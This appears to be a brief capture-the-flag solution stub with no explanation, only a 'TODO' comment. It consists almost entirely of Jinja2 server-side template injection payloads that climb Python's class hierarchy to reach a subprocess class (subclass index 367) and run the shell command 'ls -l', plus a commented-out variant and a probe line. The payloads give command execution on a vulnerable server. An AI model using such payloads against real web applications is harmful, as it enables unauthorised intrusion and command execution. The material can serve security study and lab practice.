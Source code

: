 # TODO: explain the solution lmao

{{''.\_\_class\_\_.\_\_mro\_\_[1].\_\_subclasses\_\_()[367]('ls -l', shell=True, stdout=-1).communicate()[0] }}
<!-- 
{{''.__class__.__mro__[1].__subclasses__()[367]('ls -l') }}
 -->


 {{''.__class__}}
